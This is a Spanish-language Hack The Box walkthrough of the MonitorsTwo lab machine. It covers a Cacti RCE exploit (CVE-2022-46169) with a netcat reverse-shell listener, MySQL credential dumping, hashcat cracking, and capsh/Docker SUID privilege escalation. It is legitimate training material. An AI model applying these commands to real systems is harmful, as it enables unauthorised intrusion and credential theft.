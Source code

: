 ```yaml
---
layout: single
title: MonitorsTwo - Machines - Hack The Box
excerpt: "MonitorsTwo es una máquina de dificultad fácil en la plataforma de HTB. Para acceder debemos explotar una vulnerabilidad en Cacti, accederemos a un contenedor en el que tendremos que elevar privilegios mediante un binario SUID, conseguiremos acceso a la máquina principal crackeando un hash obtenido mediante la enumeración de la base de datos MySQL. Para escalar privilegios en la máquina principal, encontraremos una vulnerabilidad en Docker en la cual podremos ejecutar comandos del contenedor en la máquina principal obteniendo así root gracias a la bash con permisos SUID.."
date: 2023-08-23
classes: wide
header:
  teaser: /assets/images/htb-machines-monitorstwo/monitorstwo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - Command Injection
  - python
  - RCE
  
---
```


![](/assets/images/htb-machines-monitorstwo/monitorstwo.png)

## 1. Enumeración 

Inicialmos con un escaneo de servicios y versiones hacia el objetivo.

•	nmap -sC -sV 10.10.11.211  	

El escaneo inicial de nmap muestra que hay dos puertos abiertos en la máquina

•	HTTP (80)

•	SSH (22)

![](/assets/images/htb-machines-monitorstwo/monitorstwo2.png)

Procedemos a navegar hacia el servicio web por el puerto 80.

![](/assets/images/htb-machines-monitorstwo/monitorstwo3.png)

Se identifica un servicio web para monitoreo llamado CACTI en su versión 1.2.22.

## 2. Explotación

Se verificó si la versión 1.2.22 de Cacti la cual es vulnerable y se encontró un exploit (CVE-2022-46169).

•	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git

![](/assets/images/htb-machines-monitorstwo/monitorstwo4.png)

Este exploit permite la ejecución remota de código no autenticado en la máquina.

Procedemos a copiar el repositorio a nuestra máquina.

•	git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git

![](/assets/images/htb-machines-monitorstwo/monitorstwo5.png)

Nos dirigimos donde se encuentra nuestro exploit escrito en Python.

![](/assets/images/htb-machines-monitorstwo/monitorstwo6.png)

En las especificaciones de uso, vemos que se necesita invocar el exploit, como parámetro pasamos -u es la URL del target, --LHOST nuestra IP y –LPORT el puerto de escucha de nuestra máquina. 

![](/assets/images/htb-machines-monitorstwo/monitorstwo7.png)

Adicionalmente debemos estar a la escucha con NETCAT del puerto que asignamos anteriormente 

•	nc -nlvp 443

![](/assets/images/htb-machines-monitorstwo/monitorstwo8.png)

Ejecutamos el explloit

•	python3 CVE-2022-46169.py  -u http://IP_TARGET --LHOST=MY_IP --LPORT=443

![](/assets/images/htb-machines-monitorstwo/monitorstwo9.png)

Vemos como obtenemos una Shell de la maquina victima como usuario www-data.

![](/assets/images/htb-machines-monitorstwo/monitorstwo10.png)

Miramos los permisos SUID.

•	ls -la

Encontrado entrypoint.sh en el directorio raíz.

![](/assets/images/htb-machines-monitorstwo/monitorstwo11.png)

Procedemos a leer el archivo.

•	cat /entrypoint.sh

Encontramos el nombre de usuario y la contraseña para MySQL.

![](/assets/images/htb-machines-monitorstwo/monitorstwo12.png)

Intentamos autenticarnos en MYSQL para comenzar a revisar el contenido de la BD.

•	mysql --host=db --user=root --password=root cacti -e "show table

![](/assets/images/htb-machines-monitorstwo/monitorstwo13.png)

Observamos la tabla user_auth.

•	user_auth puede tener credenciales.

![](/assets/images/htb-machines-monitorstwo/monitorstwo14.png)

Intentamos leer el contenido de la tabla.

•	mysql --host=db --user=root --password=root cacti -e "select * from user_auth

Se encontró una contraseña (hash) para el usuario Marcus.

![](/assets/images/htb-machines-monitorstwo/monitorstwo15.png)

Guardamos nuestro hash e intentar crakearlo con HASHCAT.

•	hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt  

![](/assets/images/htb-machines-monitorstwo/monitorstwo16.png)

Iniciamos sesión por SSH con las credenciales obtenidas y capturamos nuestra primera bandera como usuario estandar.

![](/assets/images/htb-machines-monitorstwo/monitorstwo17.png)

## 3. Escalación de Privilegios.

Descargamos Linpeas en la maquina victima para intentar encontrar una vía de explotación.

![](/assets/images/htb-machines-monitorstwo/monitorstwo18.png)

Otorgamos permisos de ejecución.

![](/assets/images/htb-machines-monitorstwo/monitorstwo19.png)

Encontramos estas dos rutas marcadas de color rojo. Nos dirigimos a la ruta /var/mail e intentamos leer el archivo marcus.

![](/assets/images/htb-machines-monitorstwo/monitorstwo20.png)

Encontramos que es un correo donde hablan de unas vulnerabilidades que encontraron. Una de ellas es una vulnerabilidad de Docker.

Debemos antes, encontrar la ruta de los contenedores mediante el comando findmnt.

![](/assets/images/htb-machines-monitorstwo/monitorstwo21.png)

En el contenedor debemos escalar privilegios.

Miramos los permisos SUID y encontramos el comando capsh.

Buscamos en GTFOBins y conseguimos root en el contenedor.

•	https://gtfobins.github.io/gtfobins/capsh/

![](/assets/images/htb-machines-monitorstwo/monitorstwo22.png)

En el contenedor, como root debemos poner la bash con permisos SUID.

![](/assets/images/htb-machines-monitorstwo/monitorstwo23.png)

En la máquina principal ejecutamos la bash del contenedor para convertirnos en root.

•	Ejecute “./bash -p” para obtener root en la máquina.

Posteriormente obtenemos nuestra flag de root.

![](/assets/images/htb-machines-monitorstwo/monitorstwo24.png)


